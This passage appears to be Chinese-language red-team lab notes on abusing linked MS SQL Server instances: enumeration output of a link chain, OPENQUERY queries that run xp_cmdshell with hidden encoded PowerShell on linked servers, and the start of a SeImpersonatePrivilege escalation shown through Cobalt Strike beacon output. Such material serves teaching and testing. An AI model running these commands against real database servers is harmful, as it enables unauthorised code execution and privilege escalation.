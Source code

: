 Version     : SQL Server 2016 
Instance    : SQL-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1, SQL-1.CYBERBOTIC.IO}
User        : sa
Links       : {SQL01.ZEROPOINTSECURITY.LOCAL}

Version     : SQL Server 2019 
Instance    : SQL01\SQLEXPRESS
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1, SQL-1.CYBERBOTIC.IO, SQL01.ZEROPOINTSECURITY.LOCAL}
User        : sa
Links       : 
```

留意上面的实例链：```SRV-1 > SQL-1.CYBERBOTIC.IO > SQL01.ZEROPOINTSECURITY.LOCAL```

2. 执行系统shell

在```sql-1.cyberbotic.io```实例上执行系统shell

```
SELECT * FROM OPENQUERY( "sql-1.cyberbotic.io" , 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''' )
```

在```sql01.zeropointsecurity.local```实例上执行系统shell

```
SELECT * FROM OPENQUERY( "sql-1.cyberbotic.io" , 'select * from openquery("sql01.zeropointsecurity.local", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''' '')' )
```

# MS SQL Privilege Escalation

因为当前mssql实例是以```NT Service\MSSQL$SQLEXPRESS```用户身份运行的，此用户有```SeImpersonatePrivilege```能力，这个能力众所周知可以使用各种土豆来提权。

```
beacon> getuid
[*] You are NT Service\MSSQL$SQLEXPRESS

beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe TokenPrivileges

====== TokenPrivileges ======

Current Token's Privileges

                SeAssignPrimaryTokenPrivilege:  DISABLED
                     SeIncreaseQuotaPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeManageVolumePrivilege:  SE_PRIVILEGE_ENABLED
                       SeImpersonatePrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeCreateGlobalPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED
